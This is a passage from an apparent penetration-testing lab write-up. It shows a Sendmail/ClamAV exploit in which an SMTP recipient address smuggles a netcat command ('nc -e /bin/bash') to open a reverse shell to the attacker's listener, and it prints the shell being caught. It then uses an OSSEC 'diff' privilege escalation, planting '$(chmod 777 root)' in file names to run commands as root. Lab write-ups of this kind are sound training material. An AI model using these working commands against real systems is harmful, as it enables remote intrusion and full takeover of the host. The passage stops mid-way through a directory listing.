 After that's done, let's return to our other terminal and finish up the exploit to connect to the __192.168.10.1__ device!

```console
mail from:<>
250 2.1.0 <>... Sender ok
rcpt to:<nobody+"|/bin/nc -e /bin/bash 192.168.10.1 1234"@localhost>
250 2.1.5 <nobody+"|/bin/nc -e /bin/bash 192.168.10.1 1234"@localhost>... Recipient ok
data
354 Enter mail, end with "." on a line by itself
.
250 2.0.0 v6R0UhsR001036 Message accepted for delivery

```

Looks like we got a shell! But let's jump over to __192.168.10.1__ and double check!

```console
listening on [any] 1234 ...
connect to [192.168.10.1] from (UNKNOWN) [192.168.11.5] 25328
python -c 'import pty; pty.spawn("/bin/sh")'
$ bash
bash
##########################
PasswordAuthentication no
##########################
clamav@tl11-192-168-11-5:/tmp/clamav-31b51b47d94a30ef5c5a79d491b78aa7$
```

## Exploiting a Privilege Escalation Vulnerability in OSSEC

Once I got a Reverse Shell on the __192.168.11.5__ device via the SendMail/ClamAV Exploit I decided to dig around and see what I could find.

After some time enumerating I noticed that I didn't have enough privileges on the __192.168.11.5__ device, so I needed to find a way to escalate my privileges.

With what I already knew I decided that I should be looking for Privilege Escalation Vulnerabilities in either ClamAV, or by looking at SUID/GUID misconfigurations.

After some time spent researching I came across [OSSEC](https://en.wikipedia.org/wiki/OSSEC) and found an [OSSEC 2.7 < 2.8.1 - 'diff' Command Privilege Escalation Vulnerability](https://www.exploit-db.com/exploits/37265/) which would allow for low privilege users to execute commands as root.

I thought that this wasn't a stupid idea to try and that it's very highly likely that the ClamAV server was running OSSEC, so I said, why not and decided to give the exploit a try and see if we can't modify the permissions of the root folder.

```console
clamav@tl11-192-168-11-5:/tmp/clamav-31b51b47d94a30ef5c5a79d491b78aa7$ cd ~/
cd ~/
clamav@tl11-192-168-11-5:~$ touch "x-\$(chmod 777 root)"
touch "x-\$(chmod 777 root)"
clamav@tl11-192-168-11-5:~$ nano x*
nano x*
Error opening terminal: unknown.
clamav@tl11-192-168-11-5:~$ echo "abc" > x-*
echo "abc" > x-*
clamav@tl11-192-168-11-5:~$ touch "y-\$(chmod 777 root)"
touch "y-\$(chmod 777 root)"
clamav@tl11-192-168-11-5:~$ echo "xyz" > y-*
echo "xyz" > y-*
clamav@tl11-192-168-11-5:~$ ls -la /
ls -la /
total 89
drwxr-xr-x 22 root root  4096 Apr  1 22:18 .
drwxr-xr-x 22 root root  4096 Apr  1 22:18 ..
drwxr-xr-x  2 root root  4096 Jun 30 11:51 bin
```